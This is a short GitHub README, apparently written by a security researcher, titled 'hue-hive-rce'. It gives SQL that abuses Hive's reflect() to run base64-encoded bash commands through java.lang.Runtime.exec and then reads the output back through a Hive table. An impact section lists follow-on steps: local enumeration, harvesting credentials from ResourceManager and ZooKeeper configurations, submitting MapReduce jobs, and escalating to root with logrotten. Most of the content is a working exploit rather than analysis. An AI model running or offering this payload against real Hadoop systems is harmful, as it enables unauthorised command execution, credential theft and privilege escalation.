

# hue-hive-rce
 
## Preparation
```sql
create table workspace_hs.out as select "Hendrik Schultze @ InnoGames";
truncate table workspace_hs.out;
```

## Command and Get Output
```sql
SELECT reflect("java.lang.Runtime", "exec", concat("bash -c {echo,",base64(encode("${cmd} &> /tmp/out", 'UTF-8')),"}|{base64,-d}|{bash,-i}"));
truncate table workspace_hs.out;
LOAD DATA LOCAL INPATH '/tmp/out' INTO TABLE workspace_hs.out;
select * from workspace_hs.out;
```

### Example


### Impact
Depending on the user (`hive` or worst case `root`) we can atleast save and run script inside the datacenter from `/tmp`.
Therefore we can use that server as base for future attack, checking the local server (`ss -tulpn`,`ps auxf`, enumeration...). Often the Apache BigData internal systems are not fully protected because they are setup insecure by default.
These allows us to read configurations (potential credentials etc) from the Apache ResourceManage, Apache ZooKepe, etc.
As these BigData stack offers many APIs, we can submit MapRed Jobs, executed on HDFS or connect to Apache Kafka.
Often it is also possible to escale to `root` e.G. with [logrotten](https://github.com/whotwagner/logrotten).
